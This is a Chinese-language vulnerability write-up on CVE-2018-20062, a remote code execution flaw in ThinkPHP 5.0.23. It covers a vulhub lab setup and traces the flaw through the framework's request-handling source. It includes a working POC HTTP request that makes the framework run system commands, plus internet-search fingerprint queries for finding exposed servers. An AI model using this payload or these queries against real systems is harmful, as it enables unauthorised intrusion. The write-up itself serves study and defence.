

# CVE-2018-20062

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** ThinkPHP5 5.0.23远程代码执行漏洞

# 0x01 产品简介

ThinkPHP是一个免费开源的，快速、简单的面向对象的轻量级PHP开发框架，是为了敏捷WEB应用开发和简化企业应用开发而诞生的。
它遵循Apache2开源许可协议发布，意味着你可以免费使用`ThinkPHP`，甚至允许把你基于`ThinkPHP`开发的应用开源或商业产品发布/销售。

其5.0.23以前的版本中，获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞。

# 0x02 影响范围

5.0版本（<5.0.24）

# 0x03 空间搜索引擎相关查询语法

```
【FOFA】
icon_hash="1165838194"

【鹰图】
web.icon=="f49c4a4bde1eec6c0b80c2277c76e3db"

【Quake】
favicon: "f49c4a4bde1eec6c0b80c2277c76e3db"

【零零信安】
icon=f49c4a4bde1eec6c0b80c2277c76e3db
```

# 0x04 环境搭建

这里使用vulhub快速搭建漏洞环境

输入以下命令：（Think PHP版本：5.0.23）

```jsx
docker compose up -d
```

访问http://your-ip:8080后你会看到ThinkPHP的默认页面。

# 0x05 漏洞利用

POC如下

```
POST /?s=captcha HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```



# 0x06 漏洞源码分析

首先看取路由的pathinfo()函数，位于`Thinkphp\thinkphp\library\think\Request.php`目录下。

会先判断请求报文中`$_GET['s']`是否存在，如果存在就会把参数s的值赋值给`$_SERVER['PATH_INFO']`。


发现该路由函数中 `$this->config['var_pathinfo']` ，是配置文件 `Thinkphp\thinkphp\convention.php` 中的的默认值。


全局搜索`pathinfo(`，发现其被`Thinkphp\thinkphp\library\think\Request.php`中的`path()`函数调用。


继续分析后发现，该函数`path()`被文件`Thinkphp\thinkphp\library\think\App.php`中的`routeCheck()`函数调用


进行路由检测，攻击者可控的`$path`会被传递给`check()`函数。


发现调用了`method()`函数，继续追踪追踪


在函数`__construct()`中，主要会对post传入的内容进行判断，最后保存一下`php://input`接收的内容。

**PS：`property_exists`** 函数用于检查一个对象或类是否具有指定的属性。


我们继续向下分析，发现会进行路由规则的检测


如果最后check()函数返回值为`false`，则会抛出异常


继续跟进，我们会发现，该函数会被`Thinkphp\thinkphp\library\think\App.php`文件中的run()函数，用于记录当前调度信息。


继续跟进


跟入`Request::instance()->param()`，该方法用于处理请求中的各种参数。


发现会调用method函数，继续跟进


继续跟入`$this->server`，可以发现这里也有一个`input`


`$name`为REQUEST_METHOD，因此input()参数中，第二个参数经过三元判断后结果为REQUEST_METHOD

我们继续跟进input函数


`$filter`会接收来之`$this->getFilter()`过滤后的内容

**`PS：`** `__construct`是在 PHP 类中定义的一个特殊方法（魔术方法），它在类的实例创建时自动调用。这个方法通常用于执行对象的初始化操作，如设置默认值、连接数据库等。

回到前面，我们继续向下分析


发现最后会调用`input()`函数


`$filter`会接收来之`$this->getFilter()`过滤后的内容，继续跟进


`$data`是前面传入的`$this->param`，类型是数组，所以经判断后会调用`array_walk_recursive()`函数，对`$data`中的每一个值调用`filterValue`函数，最终调用了`call_user_func`执行代码

因此当我们构造如下请求时，就会造成RCE

```
POST /?s=captcha HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```


**扩展：**

**`call_user_func`** 是一个 PHP 函数，用于动态地调用用户自定义函数或方法。这个函数允许你通过字符串指定函数或方法名，并以参数的形式传递调用所需的参数。

以下是 **`call_user_func`** 的基本语法：

```php
mixed call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] )
```

- **`$callback`**: 要调用的回调函数或方法。可以是一个字符串表示的函数名，一个数组表示的类方法，或者一个包含对象和方法名的数组。
- **`$parameter`**（可选）: 传递给回调的参数。可以传递多个参数，具体取决于回调函数或方法的期望参数数量。